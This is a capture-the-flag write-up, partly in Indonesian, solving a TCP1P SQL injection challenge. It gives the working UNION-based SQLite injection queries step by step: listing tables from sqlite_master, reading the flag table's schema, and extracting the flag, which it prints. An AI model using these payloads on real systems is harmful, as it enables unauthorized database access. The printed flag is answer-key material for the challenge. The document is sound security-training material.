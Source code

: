 # SQLI
> Write-up author: vreshco
## DESCRIPTION:
Apakah kamu tahu apa itu SQL Injection?

http://ctf.tcp1p.com:25859/

## HINT:
1. google how to get table names in sqlite.
2. `nijika' UNION SELECT"1","2",3;--` , mungkin dia tidak menerima integer, hmmm... maybe...

## STEPS:
1. Given a web app.

> WEB APP![image](https://user-images.githubusercontent.com/70703371/229270940-bf2de7fd-f502-470f-857b-f5da7e71e94b.png)


2. Clicking the `playground` option shall allows us to search for characters.

![image](https://user-images.githubusercontent.com/70703371/229271011-e6cac1b3-7591-4ab7-89f7-122a4e71f1de.png)


3. Based from the hint given, the db used is **sqlite** and let's used the sqlite query given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/229271093-31e778a0-0189-47da-b115-570ce1c67eef.png)


4. I did a small outsource about **sqlite exploit** [query](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf)]
5. And found a documentation about it, it seems we can use "tbl_name" to exract all the tables avail.

> THE QUERY

```sql
nijika' UNION SELECT"1","tbl_name","3" FROM sqlite_master;--
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/229271320-2263d533-b03c-4d62-9440-1ac6369dfa7a.png)


6. Notice, there's a **flag** table.
7. Let's extract all the columns avail.

> QUERY

```sql
nijika' UNION SELECT"1","sql","3" FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='flag';--
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/229271765-6cb02c92-2960-4dae-aca6-f2887e876aef.png)


8. Finally, let's extract the data from the column.

> QUERY

```sql
nijika' UNION SELECT"1","this_is_the_flag","3" FROM flag;--
```


> RESULT

![image](https://user-images.githubusercontent.com/70703371/229271945-6f2189a0-fbf4-4fa1-aa98-8579f2e7d5e3.png)


9. Got the flag!

## FLAG

```
TCP1P{Sequel_Query_Langueange_Injection_1337}
```


